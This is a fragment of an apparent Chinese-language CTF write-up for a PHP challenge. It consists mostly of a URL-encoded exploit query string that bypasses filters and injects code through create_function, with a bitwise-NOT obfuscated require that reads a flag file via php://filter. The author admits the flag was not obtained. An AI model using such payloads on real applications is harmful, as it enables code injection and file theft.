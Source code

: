 ```
fl%61g[%61rg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//
```

最后得到flag，开始解码，得flag



```
?deb%75=aq%75a_is_c%75te%0a
&file=data://text/plain,deb%75_deb%75_aq%75a
&sh%61na[]=1
&p%61sswd[]=2
&fl%61g[c%6fde]=create_function
&fl%61g[%61rg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//
```

但是思路是这样的，我没有出flag。